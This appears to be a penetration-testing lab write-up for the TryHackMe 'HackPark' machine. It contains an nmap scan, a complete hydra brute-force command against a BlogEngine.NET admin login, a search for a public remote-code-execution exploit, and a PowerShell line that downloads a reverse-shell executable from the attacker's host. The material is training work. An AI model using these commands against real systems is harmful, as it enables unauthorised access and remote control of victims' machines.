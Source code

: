 nmap -sV -sC -o nmap 10.10.246.210
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-27 10:36 EST
Nmap scan report for 10.10.246.210
Host is up (0.35s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
|_http-server-header: Microsoft-IIS/8.5
|_http-title: hackpark | hackpark amusements
3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2020-12-27T15:36:52+00:00; -1s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s

port 80 and 3389 are open

 Windows website login form using POST method
<form method="post" action="login.aspx?ReturnURL=%2fadmin%2f" id="Form1">

the steps for to get the hydra command at the back is as follows
go to inspect element > network > edit and send the post request, copy referer:request body:failed message

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.246.210 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=kcSMO%2FXF1GCTeqt5uRKPoYMbob7ILPmcJ8MRMGNpv2FneCHIfEXPYOSXqtxv7DNoE8I3ocTwXLS9nE%2BFsrLJiHyETHd061sGnCLUvKIZ98Tw51yIvJPBPwCnvZkSPBN1IGUjaSXna2xuK3zLhKzuJMYEMGp%2BJaP2%2FnW3KLtiHdSkJNaf&__EVENTVALIDATION=An1jltDUr%2FrJuqK%2FrWVjD8jVjSf5VMWKvH%2BRo5qQE9Qj4eGYCBTjNSWsFE5%2FEkHkpfIodOJNXbmfoUTYDVGixWMGR8Uh4t4o5X9Rt16ieHoB4SXqj2wNQW3KckOfeclwpBQJbmdFBCPS%2FdzwfeBzvm1jPbMdBiH2IFcI0iE0FX3uIkeq&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"

[STATUS] 576.00 tries/min, 576 tries in 00:01h, 14343823 to do in 415:03h, 16 active
[80][http-post-form] host: 10.10.246.210   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found                                                                 
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-12-27 11:22:32  


once im inside the admin page, we can see that it is running on BlogEngine.NET 3.3.6
a quick search on exploitdb would lead us to the following public exploit that we can use
kali@kali:~/oscptraining/tryhackme/hackpack$ searchsploit -p aspx/webapps/46353.cs
  Exploit: BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution
      URL: https://www.exploit-db.com/exploits/46353
     Path: /usr/share/exploitdb/exploits/aspx/webapps/46353.cs
File Type: HTML document, ASCII text, with CRLF line terminators

kali@kali:~/oscptraining/tryhackme/hackpack$ cp /usr/share/exploitdb/exploits/aspx/webapps/46353.cs .

follow the instructions and we are in!

lets enumerate the machine...


trying upgrade our reverse shell to a full reverseshell
powershell Invoke-WebRequest -Uri http://10.4.24.92:8000/reverse.exe -Outfile reverse.exe



